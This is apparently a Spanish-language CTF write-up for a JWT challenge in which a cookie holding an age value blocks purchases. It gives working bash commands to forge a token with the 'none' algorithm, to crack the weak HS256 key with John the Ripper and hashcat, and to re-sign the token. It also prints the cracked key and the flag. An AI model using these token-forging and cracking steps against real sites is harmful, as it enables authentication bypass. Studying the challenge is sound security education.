 # 🍺 JaggerWhiskyTequila

## 💭 Concepto


Cuando se accede a la web, se pueden observar distintos tipos de bebida. Al intentar comprar una, nos redirige a la URL `/compra` donde nos aparece el siguiente mensaje:

> No tienes +18 años

Observando las cookies, comprobamos que la página nos ha asignado una con el nombre de `cliente` y con el siguiente valor:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s
```

Con un poco de práctica, es posible reconocer la estructura de la misma. Las dos primeras letras (`ey`) indican que el comienzo de cadena es el caracter `{` seguido de un espacio o unas comillas. Además, la cookie consta de tres partes delimitadas por puntos.

Por lo tanto, se puede deducir que la solución estará basada en vulnerabilidades conocidas de `JWT`.

> Una pista a mayores es el nombre del reto: **J**agger**W**hisky**T**equila (JWT)

## 📜 Teoría

Lo primero de todo es decodificar la cookie. Para ello podemos hacer uso de herramientas online, como [JWT.io](https://jwt.io/), o segmentar la cadena según el delimitador (en este caso, un punto), dado que JWT sigue el siguiente formato:

![JWT Format](../.img/jwt-format.webp)

En el **Header** se especifica el tipo de formato que se utiliza, así como el algoritmo a usar para cifrar/descifrar los datos.

En el caso del reto, la información obtenida es la siguiente:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
# {"typ": "JWT","alg": "HS256"} 
```

> `HS256` indica que el **Payload** está cifrado usando una clave

Si hacemos lo mismo con el segundo fragmento, podemos obtener la información guardada actualmente en la cookie:

```sh
echo -n "eyJlZGFkIjoxN30" | base64 -d
# {"edad":17}
```

Como vimos en la página de `/compra`, el mensaje nos indicaba que no teníamos más de 18 años. Ya sólo queda buscar la manera de modificar el valor de la cookie para especificar una edad mayor.

## 💣 Explotación

Este reto se puede resolver de varias maneras.

---

```yml
Vulnerabilidad: Algoritmo None
```

Aunque hoy en día ya no es habitual encontrarse con este fallo, hay veces que las páginas permiten el uso del algoritmo None o no comprueban la **Signature**.


En el primer caso y con el fin de modificar el **Payload** satisfactoriamente, bastaría con cambiar el valor de `"alg": "HS256"` a `"alg": "none"`.

En el segundo escenario, se puede optar por borrar la **Signature**, aunque no sería necesario.

Podemos generar nuestro nuevo `JWT` usando el siguiente script de **bash**:

```sh
echo -n $(echo -n '{"typ":"JWT","alg":"none"}' | base64).$(echo -n '{"edad":18}' | base64). | tr -d "="
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlZGFkIjoxOH0.
```

Ahora sólo queda reemplazarlo en la página web y recargar la página para obtener la `flag`.

---

```yml
Vulnerabilidad: Clave HS256 débil
```

Es posible que la clave usada para firmar el **Payload** no sea lo suficientemente fuerte, por lo que sería viable realizar un ataque de fuerza bruta para averiguarla.

La forma estándar de hacerlo es con programas como `JohnTheRipper` o `HashCat`.

Para ello, debemos guardar el valor de la cookie en un fichero:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s" > jwt.hash
```

Una vez guardado, podemos usar diccionarios como `rockyou.txt` para realizar el ataque:

```sh
# Usando JohnTheRipper
john jwt.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

# Usando HashCat
hashcat -m 16500 jwt.hash /usr/share/wordlists/rockyou.txt
```

En ambos casos, nos dará la clave usada para firmar los datos: `alcoholic`.

Para editar el contenido, podemos hacer uso de herramientas online (como [JWT.io](https://jwt.io/)) o generarla mediante este script en `bash`:

```sh
token=`echo -n $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"edad":18}' | base64) | tr -d "=" | tr '/+' '_-'`; sign=$(echo -n ${token} | openssl dgst -sha256 -hmac "alcoholic" -binary | base64 | tr -d "=" | tr '/+' '_-'); echo -n "${token}.${sign}"

# eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxOH0.E17PNNNY9mUUNT4VJdKMlMilOP0hZc5ihlMBdar6cCM
```

Igual que antes, sólo queda reemplazar el nuevo token en la página y recargar para obtener la `flag`.

## 🏁 Flag

```
pumaCTF{JwT_4lc0h0l_n_h4nG0v3R}
```
